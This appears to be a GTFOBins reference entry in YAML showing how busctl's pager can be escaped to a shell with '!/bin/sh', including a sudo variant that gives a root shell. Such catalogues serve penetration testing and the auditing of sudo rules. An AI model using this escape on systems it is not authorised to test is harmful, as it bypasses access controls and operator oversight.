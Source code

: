 ```yaml
---
description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
functions:
  shell:
    - code: |
        busctl --show-machine
        !/bin/sh
  sudo:
    - code: |
        sudo busctl --show-machine
        !/bin/sh
---
```

